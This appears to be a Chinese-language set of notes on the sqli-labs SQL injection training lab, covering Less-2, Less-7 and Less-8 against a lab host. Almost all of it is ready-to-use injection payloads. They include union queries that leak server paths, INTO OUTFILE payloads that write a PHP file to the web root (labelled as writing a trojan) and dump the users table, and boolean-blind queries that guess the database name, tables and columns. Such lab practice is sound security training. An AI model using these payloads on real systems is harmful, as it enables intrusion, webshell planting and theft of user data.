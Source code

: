 在less-2直接注入拿到路径

```
http://daishen.ltd:1112/Less-2/?id=-1 union select 1,@@basedir,@@datadir --+
```

注入less-7

Payload

```
?id=1')) union select 1,2,'<?php phpinfo() ?>' into outfile "/usr/share/nginx/a.php"--+        写入木马
```

```
?id=1'))+UNION+SELECT * from security.users INTO OUTFILE "/var/www/html/users.txt"--+		导出数据
```

# **Less-8** 

**GET - Blind - Boolian Based - Single Quotes (布尔型单引号GET盲注)**



判断报错

```
http://daishen.ltd:1112/Less-8/?id=1' and 1=1 --+

http://daishen.ltd:1112/Less-8/?id=1' and 1=2 --+
```

判断数据版本

```
http://daishen.ltd:1112/Less-8/?id=1' and left(version(),3)=5.5 --+
```

猜解库的长度

```
http://daishen.ltd:1112/Less-8/?id=1' and length(database())=8 --+
```

猜解库名

```
http://daishen.ltd:1112/Less-8/?id=1' and left((select database()),1)='s' --+

http://daishen.ltd:1112/Less-8/?id=1' and left((select database()),8)='security' --+
```

猜解表名

```
http://daishen.ltd:1112/Less-8/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users' --+
```

猜解字段名

```
http://daishen.ltd:1112/Less-8/?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 0,1),1)='i' --+
```
